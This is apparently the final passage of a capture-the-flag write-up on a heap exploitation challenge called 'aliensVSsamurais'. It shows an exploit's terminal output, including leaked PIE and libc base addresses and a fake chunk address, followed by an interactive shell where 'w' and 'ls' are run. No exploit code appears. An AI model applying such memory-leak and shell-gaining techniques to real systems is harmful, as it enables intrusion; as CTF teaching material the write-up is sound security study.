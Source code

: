 ```

Brood mother, which one of my babies would you like to rename?

Oh great what would you like to rename
leak is: 0x560d211eb070
Pie Base: 0x560d20fe9000
Libc Base: 0x7fb1d4be7000
Fake Chun: 0x560d211eb08d
Brood mother, what tasks do we have today.

How long is my name?

What is my name?

Brood mother, what tasks do we have today.

Which alien is unsatisfactory, brood mother?

EEEEEAAAAUGGHGGHGHGAAAAa
Brood mother, what tasks do we have today.

Brood mother, which one of my babies would you like to rename?

Oh great what would you like to rename
 to?
Brood mother, what tasks do we have today.

Brood mother, what tasks do we have today.
How long is my name?

What is my name?

Brood mother, what tasks do we have today.

How long is my name?

What is my name?

Brood mother, what tasks do we have today.

Brood mother, which one of my babies would you like to rename?

Oh great what would you like to rename
[*] Switching to interactive mode
\x90f��\xb1\x7f to?
$ w
 20:04:44 up 16:22,  1 user,  load average: 0.06, 0.09, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               Sat12   31:21m  6:50   0.47s /sbin/upstart --user
$ ls
aliensVSsamurais  core    exploit.py  libc-2.23.so  malloc.c  readme.md
```

Just like that, we popped a shell!